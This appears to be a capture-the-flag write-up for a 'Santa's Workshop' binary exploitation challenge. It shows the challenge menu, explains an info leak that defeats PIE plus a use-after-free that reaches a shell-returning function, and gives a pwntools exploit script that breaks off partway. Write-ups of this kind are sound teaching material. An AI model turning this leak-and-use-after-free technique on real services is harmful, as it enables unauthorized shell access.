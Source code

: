 There’s an instance and a binary to download. The binary is a 64-bit ELF:

    
    
    $ file santasworkshop.elf 
    santasworkshop.elf: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=14aac965f690be29c5d8a90a8e44e4316e703ce2, not stripped
    

Connecting to the instance or running the binary offer the same menu:

    
    
    $ nc 152.96.7.19 1337
    Welcome to Santa's Workshop
    Enjoy your stay but don't steal anything!
    1 View naughty list
    2 Check the workshop for items
    3 Steal presents
    4 Tell a good deed
    >
    

### Solution

This challenge involves identifying a few key parts:

  * There’s a function that’s not called named `present` that just returns a shell.
  * There’s an information leak in menu item 1 that will give the necessary information to get the address of `present` despite PIE being enabled.
  * There’s a use after free vulnerability on the workshop construct which can be exploited with a combination of menu items 3, then 4, then 2, using the address of `present`.

[This video](https://www.youtube.com/watch?v=pniG3nzVMqE) shows all the steps
to getting shell on the server:

The final exploit script is:

    
    
    #!/usr/bin/env python3
    
    import sys
    from pwn import *
    
    
    r = remote(sys.argv[1], 1337)
    
    # leak present address
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'the entry\n', b'-2147483644')
    res = r.readuntil(b'>')
    pie_leak = u64(res[:-2].ljust(8, b"\x00"))
    present_addr = pie_leak - 0x309
    success(f'Found present address: 0x{present_addr:08x}')
    
    # free workshop
    r.sendline(b'3')
    
